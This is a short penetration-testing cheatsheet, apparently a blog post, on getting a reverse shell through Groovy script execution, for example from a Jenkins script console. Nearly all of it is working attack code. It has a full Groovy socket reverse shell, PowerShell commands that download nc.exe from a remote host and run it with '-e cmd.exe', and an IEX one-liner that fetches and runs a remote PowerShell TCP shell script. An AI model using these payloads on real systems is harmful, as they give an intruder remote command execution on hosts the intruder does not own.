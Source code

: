 ```yaml
---
title: "Groovy Script — Remote Code Execution"
date: 2021-08-2 18:54 +0600
categories: [Cheatsheets,Scripts]
tags: [Remote Code Execution,Groovy,RCE,Jenkins, Reverse Shell]
image: /assets/Posts/groovy.jpg
permalink: /Groovy-Script—RCE/

---
```


> This cheatsheet describes various methods for executing remote code in Groovy Language to get an reverse shell.

## Method 1:

```console
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Method 2:

#### Testing code execution

```console
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Uploading nc on victim machine

```console
def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
println("${process.text}");
```

#### Executing nc to get reverse shell

```console
def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
println("${process.text}");
```

## Method 3:

```console
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

